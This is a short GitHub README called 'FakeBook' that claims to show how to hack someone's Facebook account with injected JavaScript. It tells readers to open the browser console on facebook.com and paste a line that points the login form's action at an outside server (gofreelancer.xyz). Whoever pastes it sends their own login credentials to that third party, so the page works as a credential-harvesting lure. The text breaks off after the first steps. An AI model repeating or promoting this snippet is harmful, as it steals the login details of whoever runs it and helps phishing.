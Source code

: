 # FakeBook
Hack Someone Facebook With JavaScript inject0r

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
<li>Open <strong>https://www.facebook.com</strong> with Google Chrome Browser</li>
<li>Right-click on any page element and select Inspect Element and then Console</li>
<li>Copy & Paste (<b>Crtl+V</b>) this a line Javascript:<br>
<code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
</li>
